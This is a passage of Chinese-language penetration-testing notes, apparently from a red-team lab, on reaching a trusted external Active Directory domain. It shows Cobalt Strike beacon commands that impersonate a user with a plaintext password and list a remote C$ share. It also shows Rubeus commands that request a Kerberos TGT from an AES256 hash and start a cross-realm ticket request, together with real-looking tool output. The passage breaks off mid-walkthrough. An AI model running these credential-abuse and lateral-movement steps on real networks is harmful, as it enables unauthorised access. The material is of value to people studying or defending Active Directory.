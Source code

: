 MemberName
----------
jadams
```

## 方法一：明文密码
jadams是本域用户，而且我们知道他的明文密码:```TrustNo1```，最简单的方式就是输入明文密码访问

```
beacon> make_token DEV\jadams TrustNo1
[+] Impersonated DEV\bfarmer

beacon> ls \\ad.subsidiary.external\c$

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
          dir     02/10/2021 04:11:30   $Recycle.Bin
          dir     02/10/2021 03:23:44   Boot
          dir     10/18/2016 01:59:39   Documents and Settings
```

## 方法二：只有哈希，请求两次tgt

如果只有 RC4/AES 等哈希，就需要请求tgt。这里注意，需要请求本域的tgt，然后再根据这个tgt再次请求外域的tgt

请求本域tgt
```
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Debug\Rubeus.exe asktgt /user:jadams /domain:dev.cyberbotic.io /aes256:70a673fa756d60241bd74ca64498701dbb0ef9c5fa3a93fe4918910691647d80 /opsec /nowrap

[*] Action: Ask TGT
[*] Using domain controller: dc-2.dev.cyberbotic.io (10.10.17.71)
[*] Using aes256-cts-hmac_sha1 hash: 70a673fa756d60241bd74ca64498701dbb0ef9c5fa3a93fe4918910691647d80
[*] Building AS-REQ (w/ preauth) for: 'dev.cyberbotic.io\jadams'
[+] TGT request successful!
[*] base64(ticket.kirbi):

      doIFdD [...snip...] MuSU8=

  ServiceName           :  krbtgt/DEV.CYBERBOTIC.IO
  ServiceRealm          :  DEV.CYBERBOTIC.IO
  UserName              :  jadams
  UserRealm             :  DEV.CYBERBOTIC.IO
  StartTime             :  3/16/2021 1:00:28 PM
  EndTime               :  3/16/2021 11:00:28 PM
  RenewTill             :  3/23/2021 1:00:28 PM
  Flags                 :  name_canonicalize, pre_authent, initial, renewable, forwardable
  KeyType               :  aes256_cts_hmac_sha1
  Base64(key)           :  mnuk66R9/j0cnmZczy8ACxBfn5VcZ5pFubm3tI79KZ4=
```

根据上面的tgt（```doIFdD [...snip...] MuSU8=```这串值），请求外域访问tgt

```
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Debug\Rubeus.exe asktgs /service:krbtgt/subsidiary.external /domain:dev.cyberbotic.io /dc:dc-2.dev.cyberbotic.io /ticket:doIFdD[...snip...]MuSU8= /nowrap
